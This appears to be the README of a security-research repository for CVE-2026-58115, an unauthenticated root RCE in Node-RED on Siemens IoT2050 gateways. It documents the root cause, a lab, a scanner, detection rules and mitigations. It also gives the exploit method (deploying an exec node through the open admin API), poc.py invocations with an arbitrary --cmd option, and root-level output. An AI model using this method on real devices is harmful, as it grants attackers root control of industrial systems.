

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> · <a href="#the-proof">Exploit</a> · <a href="#detection-rules">Detection</a> · <a href="#pcap">PCAP</a> · <a href="#downstream-impact">Impact</a> · <a href="https://blog.al4n4n.com/CVE-2026-58115-Siemens-IoT2050-Node-RED-Unauthenticated-Root-RCE/">Write-up</a>
</p>

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-58115: Siemens SIMATIC IoT2050 Node-RED Admin API Without Authentication

**CWE-306** | Missing Authentication for Critical Function | SIMATIC IoT2050 Advanced (6ES7647-0BA00-1YA2), Industrial OS < V4.3.4.1 with Node-RED installed | Remote pre-auth, TCP/1880, no user interaction

The Node-RED runtime shipped on the IoT2050 listens on port 1880 with no `adminAuth` configured and runs as root. Anyone who can reach the port can read the current flows, deploy a new flow through `POST /flows`, and include an `exec` node in it. The command runs as uid 0 and its output can be routed straight back to the attacker through an `http in` / `http response` pair. One unauthenticated request deploys the flow, a second one triggers it. CVSS 10.0 on both v3.1 and v4.0. VulnCheck observed exploitation attempts against its honeypots on 2026-10-30, two and a half months after the Siemens advisory.

**Author:** [al4n4n](https://github.com/al4n4n) (Dadb0d)<br>
**Write-up:** [blog.al4n4n.com/CVE-2026-58115-Siemens-IoT2050-Node-RED-Unauthenticated-Root-RCE/](https://blog.al4n4n.com/CVE-2026-58115-Siemens-IoT2050-Node-RED-Unauthenticated-Root-RCE/)<br>
**Fixed in:** Industrial OS V4.3.4.1 (Siemens SSA-834709)

---

## The Bug

Siemens publishes the IoT2050 board support package as open source: [siemens/meta-iot2050](https://github.com/siemens/meta-iot2050) (MIT, Isar/Debian). The Node-RED layer in that repo is what this CVE is about, and it tells the whole story in two files.

The systemd unit, `meta-node-red/recipes-app/node-red/files/node-red.service.tmpl` at tag [V01.06.01](https://github.com/siemens/meta-iot2050/tree/V01.06.01) (commit `5259222771`, 2025-12-22):

```ini
[Service]
Type=idle
User=root                                             # <-- runs as uid 0
WorkingDirectory=${NODE_RED_HOME_DIR}
ExecStart=/usr/bin/node-red -u ${NODE_RED_HOME_DIR}/.node-red
```

with `NODE_RED_HOME_DIR ?= "/root"` in `node-red-home.inc`. The layer ships no `settings.js` and the string `adminAuth` does not appear anywhere in the repository. On first start Node-RED therefore writes its default `settings.js`, in which the whole authentication block is commented out:

```js
    //adminAuth: {                                    // <-- never enabled
    //    type: "credentials",
    //    users: [{ username: "admin", password: "...", permissions: "*" }]
    //},
```

Node-RED's admin API is designed to be open unless `adminAuth` is set; that is documented behaviour. The bug is shipping it that way on an industrial gateway, bound to all interfaces, as root, and started automatically: the recipe has no preset, so Debian's `dh_installsystemd` default enables and starts the unit on install. The recipe is named `node-red_4.0.9.bb`, but the Siemens `npm-shrinkwrap.json` it installs from resolves Node-RED **4.1.0**, which is what actually runs.

The only change to the layer between V01.06.01 and V01.06.04 is commit [`6d7046b4`](https://github.com/siemens/meta-iot2050/commit/6d7046b46c1a7bd26395d5abd596b2966b4f1c85) (2026-03-25, "node-red: disable service by default"), which adds a `99-node-red.preset` with `disable node-red.service` and `--no-start`. It stops the service from running unless an operator enables it. It does not add authentication. Whether Industrial OS V4.3.4.1 contains this change, an `adminAuth` configuration, or both, is not public; Siemens' own mitigation advice is to uninstall Node-RED or harden it following the Node-RED security guide.

## Trigger Conditions

1. Node-RED admin API reachable on TCP/1880 (default on the affected images)
2. No `adminAuth` in `settings.js` (the shipped configuration)
3. That's it. No credentials, no user interaction, no special headers; the editor's own `Node-RED-API-Version: v2` header is sent for convenience only.

Root comes for free because the unit runs as `User=root`. On a Node-RED instance that runs as an unprivileged user the same requests still give command execution as that user.

## Files

| File | Purpose |
|------|---------|
| `setup.py` | Lab: builds the target image from Siemens' lockfile, starts vulnerable / fixed / hardened containers |
| `Dockerfile` | Target image: Debian + Node-RED built exactly as `meta-node-red` builds it, started as the Siemens unit starts it |
| `check.py` | Non-destructive scanner: `GET /auth/login`, `/settings`, `/flows`; `--json`; exit 0/1/2 |
| `poc.py` | Deploys one flow (`http in` → `exec` → `http response`), reads back `id`, restores the original flows |
| `verify.py` | Dashboard: environment, check, N exploit rounds, negative control, verdict |
| `detection/cve-2026-58115.rules` | Suricata rules for the unauthenticated deployment over the admin API |
| `detection/cve-2026-58115.yml` | Sigma rule for the host side: the Node-RED process spawning a shell |
| `capture/CVE-2026-58115.pcap` | Live capture of a check + exploit run (70 packets, plain HTTP) |
| `poster.png` | Repository poster image |

## Repository Structure

```
CVE-2026-58115/
├── README.md
├── LICENSE
├── poster.png
├── Dockerfile                 # Emulated target (see "What this repo proves")
├── setup.py                   # Lab setup / teardown
├── check.py                   # Non-destructive vulnerability scanner
├── poc.py                     # Single-shot exploit (deploy flow, run `id`, restore)
├── verify.py                  # Verification dashboard with negative control
├── capture/
│   ├── CVE-2026-58115.pcap    # Live exploit capture
│   └── README.md              # How it was captured, what is in it
└── detection/
    ├── cve-2026-58115.rules   # Suricata
    └── cve-2026-58115.yml     # Sigma
```

## Usage

### Lab setup

```bash
# Downloads Siemens' npm-shrinkwrap.json (sha256 verified), builds the image,
# starts :1880 vulnerable, :1881 fixed (service disabled), :1882 hardened (adminAuth)
python3 setup.py

# Match the V01.06.01 base exactly (Debian trixie) instead of bookworm
python3 setup.py --base debian:trixie-slim

python3 setup.py --teardown
```

### Check (non-destructive)

```bash
python3 check.py http://192.0.2.10:1880
python3 check.py http://192.0.2.10:1880 --json
```

### Exploit

```bash
python3 poc.py http://192.0.2.10:1880            # deploys flow, runs `id`, restores flows
python3 poc.py http://192.0.2.10:1880 --cmd 'cat /etc/os-release'
```

### Verify

```bash
python3 verify.py http://192.0.2.10:1880 --rounds 3 --negative-target http://192.0.2.11:1880
python3 verify.py http://192.0.2.10:1880 --rounds 3 --no-negative
```

## Check (Non-Destructive)

```
[*] target: http://127.0.0.1:1880
[*] GET /auth/login -> 200 {}
[*] GET /settings   -> 200 (Node-RED version: 4.1.0)
[*] GET /flows      -> 200 (0 nodes, rev 4f53cda18c2baa0c0354bb5f9a3ecbe5ed12ab4d8e11ba873c2f11161202b945)
[+] VULNERABLE (confidence: high) -- admin API (/settings, /flows) readable with no credentials; /auth/login reports no auth scheme (adminAuth not configured). Unauthenticated flow deployment -> command execution.
```

`GET /auth/login` is the cleanest fingerprint: a hardened instance answers with its auth scheme (`{"type":"credentials", ...}`), an open one answers `{}`. Nothing is deployed or changed.

## The Proof

### poc.py output

```
[*] GET  http://127.0.0.1:1880/flows -> 200
[*] current flow set: 0 nodes, rev 4f53cda18c2baa0c0354bb5f9a3ecbe5ed12ab4d8e11ba873c2f11161202b945
[*] POST http://127.0.0.1:1880/flows (deploy 4 nodes incl. exec node `id`) -> 200 {"rev":"781dcce5db80e7a55038ce3cf77e77bc8843a907e32501d2fb3a3ec7de1eab68"}
[*] GET  http://127.0.0.1:1880/f256d971d39a9bbe -> 200
[+] command output from target:
    uid=0(root) gid=0(root) groups=0(root)
[+] exec node ran as uid=0 (root): unauthenticated remote command execution as root
[*] POST http://127.0.0.1:1880/flows (restore 0 original nodes) -> 200
```

Four nodes go in: a tab, an `http in` on a random path, an `exec` node running `id`, and an `http response`. The `GET` on the random path is the trigger; the body is the command's stdout. The last `POST` puts the original flow set back so the target is left as found.

### verify.py output

```
======================================================================
CVE-2026-58115  Node-RED admin API without authentication (Siemens IoT2050)
======================================================================
target          : http://127.0.0.1:1880
rounds          : 3
negative control: http://127.0.0.1:1882

======================================================================
Environment
======================================================================
GET /settings    : 200
Node-RED version : 4.1.0
httpNodeRoot     : /

======================================================================
Exploit rounds (poc.py: deploy flow -> exec `id` -> read back -> restore)
======================================================================
round 1/3: rc=0 root=True (0.1s)
round 2/3: rc=0 root=True (0.1s)
round 3/3: rc=0 root=True (0.1s)

======================================================================
Negative control: same requests against http://127.0.0.1:1882
======================================================================
GET /settings    : 401
[*] target: http://127.0.0.1:1882
[*] GET /auth/login -> 200 {"type": "credentials", "prompts": [{"id": "username", "type": "text", "label": "user.username"}, {"id": "password", "type": "password", "label": "user.password"}]}
[*] GET /settings   -> 401 (Node-RED version: None)
[*] GET /flows      -> 401
[-] NOT VULNERABLE -- admin API requires authentication (adminAuth type=credentials)
poc.py rc=1, root=False
negative control PASSED (no unauthenticated execution)

======================================================================
Verdict
======================================================================
VULNERABLE -- unauthenticated root command execution in 3/3 rounds (100%)
negative control: passed

Impact : anyone who can reach TCP/1880 can deploy a flow with an exec node;
         Node-RED runs as root on the affected images, so the command runs as uid 0.
Manual : curl -s http://127.0.0.1:1880/auth/login ; curl -s http://127.0.0.1:1880/settings | head -c 300
```

## Negative Control

Two controls, both built from the same image as the vulnerable target:

- **Hardened** (`:1882`): `settings.js` with `adminAuth` of type `credentials`, the configuration Siemens' advisory points to. `/settings` and `/flows` answer `401`, `poc.py` exits 1 before deploying anything. Output above.
- **Fixed** (`:1881`): the package is installed but the service is not started, which is what commit `6d7046b4` does with its preset. Nothing listens on 1880; `check.py` exits 2 (unknown / unreachable).

**negative control: PASSED** on both.

## Downstream Impact

| Target | Affected | Notes |
|--------|----------|-------|
| SIMATIC IoT2050 Advanced, Industrial OS < V4.3.4.1 with Node-RED | Yes | Vendor-confirmed (SSA-834709); exploited in the wild per VulnCheck |
| IoT2050 Example Image built from meta-iot2050 < V01.06.03 with the Node-RED fragment | Yes (inferred) | Same recipe, unit and lockfile as reproduced here; the service autostarts |
| meta-iot2050 ≥ V01.06.03 | Partly | Service disabled by default; if an operator enables it, the API is still unauthenticated |
| Any Node-RED without `adminAuth` reachable over the network | Yes | Command execution as the service user; root only if run as root |

Immediate mitigations, in order of strength:

```bash
# 1. Enable authentication (adminAuth) following https://nodered.org/docs/user-guide/runtime/securing-node-red
# 2. Or stop the service if it is not needed
systemctl disable --now node-red
# 3. Keep TCP/1880 off any untrusted network
# One-line check: "{}" means the admin API is open
curl -s http://<device>:1880/auth/login
```

## Detection Rules

### Suricata (`detection/cve-2026-58115.rules`)

Flags flow deployments to the Node-RED admin API that carry no `Authorization` header, and separately those whose flow contains an `exec` node. On a hardened instance every deployment from the editor carries a bearer token, so the unauthenticated form is the signature.

### Sigma (`detection/cve-2026-58115.yml`)

Host-side: the Node-RED process (`node` running `node-red`) spawning `/bin/sh -c`. The `exec` node is the only stock node that does that, and on an industrial gateway it should be rare enough to alert on.

## PCAP

Live capture of a `check.py` + `poc.py` run under [`capture/`](capture/): 70 packets, 7 HTTP requests over 7 connections, 172.17.0.1 → 172.17.0.4:1880, no TLS. Details in [`capture/README.md`](capture/README.md).

```bash
suricata -r capture/CVE-2026-58115.pcap -s detection/cve-2026-58115.rules -l /tmp/suricata-test/
cat /tmp/suricata-test/fast.log
```

## What This Repo Proves (and Does Not Prove)

| Claim | Status | Evidence |
|---|---|---|
| Flows can be deployed on the admin API with no credentials | **Proven** | `POST /flows` → 200 with no `Authorization` header; live PCAP |
| Deployed `exec` node runs commands as root | **Proven** | `uid=0(root)` returned over HTTP, 3/3 rounds |
| The shipped Siemens BSP configuration is the one tested | **Proven for the public BSP** | Unit file, `node-red-home.inc`, lockfile (sha256-verified) and absence of `adminAuth` at tag V01.06.01 |
| The Siemens Industrial OS image behaves the same | **Inferred** | Closed image, not tested here; vendor advisory and in-the-wild exploitation agree |
| Commit `6d7046b4` is the fix shipped in V4.3.4.1 | **Not proven** | Siemens does not publish the mapping; the commit disables the service, it does not add auth |
| `adminAuth` stops the attack | **Confirmed** | Negative control: 401 on every admin endpoint |
| Service disabled by default stops the attack | **Confirmed** | Negative control: nothing listening |

The target in this repo is an **emulation**: Node-RED built from Siemens' lockfile the way `meta-node-red` builds it, started the way the Siemens unit starts it, on a Debian base. It is not the Siemens image. The kernel, bootloader, Siemens node set and the rest of the BSP are not reproduced; none of them are involved in the bug. See `Dockerfile` for the file-by-file mapping.

## References

- **CVE:** [CVE-2026-58115](https://www.cve.org/CVERecord?id=CVE-2026-58115) · [NVD](https://nvd.nist.gov/vuln/detail/CVE-2026-58115)
- **Siemens advisory:** [SSA-834709](https://cert-portal.siemens.com/productcert/html/ssa-834709.html)
- **Public BSP:** [siemens/meta-iot2050](https://github.com/siemens/meta-iot2050) · vulnerable tag [V01.06.01](https://github.com/siemens/meta-iot2050/tree/V01.06.01) · [`node-red.service.tmpl`](https://github.com/siemens/meta-iot2050/blob/V01.06.01/meta-node-red/recipes-app/node-red/files/node-red.service.tmpl)
- **Fix-related commit:** [`6d7046b4` node-red: disable service by default](https://github.com/siemens/meta-iot2050/commit/6d7046b46c1a7bd26395d5abd596b2966b4f1c85)
- **Node-RED:** [Securing Node-RED](https://nodered.org/docs/user-guide/runtime/securing-node-red) · [Admin API](https://nodered.org/docs/api/admin/)
- **In the wild:** [VulnCheck: Exploitation targeting Node-RED](https://www.vulncheck.com/blog/exploitation-targeting-node-red) · [The Hacker News, 2026-11-03](https://thehackernews.com/2026/11/attackers-exploit-critical-siemens.html)

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).

<!-- citation:start -->
## Cite this research

> al4n4n (Dadb0d). Siemens SIMATIC IoT2050 Node-RED unauthenticated root RCE (CVE-2026-58115). *achilles-heel*, added 2026-11-04. <https://github.com/al4n4n/achilles-heel/tree/main/CVE-2026-58115>. [Research article](https://blog.al4n4n.com/CVE-2026-58115-Siemens-IoT2050-Node-RED-Unauthenticated-Root-RCE/).
<!-- citation:end -->
